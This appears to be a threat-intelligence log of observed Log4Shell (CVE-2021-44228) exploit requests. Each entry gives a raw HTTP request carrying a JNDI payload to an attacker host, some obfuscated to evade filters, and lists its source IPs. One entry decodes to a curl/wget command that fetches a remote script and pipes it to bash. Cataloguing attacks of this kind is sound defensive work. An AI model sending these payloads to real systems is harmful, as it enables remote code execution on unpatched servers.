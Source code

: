 ```
GET / HTTP/1.1
Host: !!IP_ADDRESS!!
User-Agent: ${jndi:ldap://http80useragent.kryptoslogic-cve-2021-44228.com/http80useragent}
Accept: */*
Accept-Encoding: gzip
```

Kryptos scanners
Source IPs:
- 139.59.101.242

-----------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Authorization: Oauth ${jndi:ldap://45.83.193.150:1389/Exploit}
User-Agent: curl/7.58.0
Accept: */*
Host: !!IP_ADDRESS!!
```

Source IPs:
- 221.226.159.22
- 218.89.222.71
- 1.179.247.182

-----------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Authorization: Token ${jndi:ldap://45.83.193.150:1389/Exploit}
User-Agent: curl/7.58.0
Accept: */*
Host: !!IP_ADDRESS!!
```

Source IPs:
- 221.226.159.22
- 218.89.222.71
- 1.179.247.182

-----------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Authorization: Basic ${jndi:ldap://45.83.193.150:1389/Exploit}
User-Agent: curl/7.58.0
Accept: */*
Host: !!IP_ADDRESS!!
```

Source IPs:
- 221.226.159.22
- 218.89.222.71
- 1.179.247.182

-----------------------------------------------------------------------------------------
```
GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1
Host: !!IP_ADDRESS!!
User-Agent: ${jndi:dns://45.83.64.1/securityscan-http80}
Referer: ${jndi:dns://45.83.64.1/securityscan-http80}
X-Api-Version: ${jndi:dns://45.83.64.1/securityscan-http80}
Accept-Encoding: gzip
```

Source IPs:
- 45.83.64.161

-----------------------------------------------------------------------------------------
```
GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/!!BASE64_VALUE!!} HTTP/1.1
Host: !!IP_ADDRESS!!:80
User-Agent: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://195.54.160.149:12344/Basic/Command/Base64/!!BASE64_VALUE!!}
Referer: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://195.54.160.149:12344/Basic/Command/Base64/!!BASE64_VALUE!!}
Accept-Encoding: gzip
Connection: close
```

Base64 value decodes to:

```bash
(curl -s 195.54.160.149:5874/!!IP_ADDRESS!!:80||wget -q -O- 195.54.160.149:5874/!!IP_ADDRESS!!:80)|bash
```

Source IPs:
- 195.54.160.149